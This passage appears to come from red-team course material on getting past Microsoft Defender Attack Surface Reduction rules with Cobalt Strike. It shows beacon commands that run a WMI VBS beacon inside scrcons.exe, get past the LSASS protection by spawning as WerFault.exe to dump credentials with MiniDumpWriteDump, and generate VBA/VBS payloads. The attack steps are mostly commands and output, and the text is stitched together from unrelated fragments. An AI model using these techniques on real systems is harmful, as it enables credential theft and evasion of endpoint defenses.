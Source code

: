 ```
[*] Removing FilterToConsumerBinding from wkstn-2
[*] Removing 'Debug' event filter from wkstn-2
[*] Removing 'Debug' event consumer from wkstn-2
```

The VBS is executed by scrcons.exe (WMI Standard Event Consumer), so if your injector performs "self-injection" (e.g. `var target = Process.GetCurrentProcess();`), the Beacon will be running inside this process.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/wmi-vbs-beacon.png)

 ##### scrcons.exe will exit shortly after execution, so you have to migrate out of this process ASAP (e.g. with inject, shinject, shspawn etc).

# Block Credential Stealing from LSASS

_"This rule helps prevent credential stealing, by locking down Local Security Authority Subsystem Service (LSASS)."_

At its heart, this rule prevents you from opening a handle to LSASS with PROCESS_VM_READ privileges.  As an example, we can try and read LSASS using the **MiniDumpWriteDump** API.
```
beacon> getuid
[*] You are RTO2\amoss (admin)

beacon> spawnto x64 C:\Windows\System32\notepad.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\notepad.exe

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[X] MiniDumpWriteDump Failed
```


##### I'm ensuring the spawnto is set to notepad because Defender will catch and kill the Beacon if rundll32 is used.


As with other ASR rules, not all processes appear to be blocked.  WerFault (Windows Error Reporting) is an application responsible for error reporting on Windows.  When an application crashes, werfault.exe is spawned as a child and collects debug information for reporting purposes.

By setting our spawnto to werfault, we can obtain a handle to LSASS which includes the permission to read its memory.
```
beacon> spawnto x64 C:\Windows\System32\WerFault.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\WerFault.exe
[+] host called home, sent: 40 bytes

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[!] MiniDumpWriteDump Succeeded
```

[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs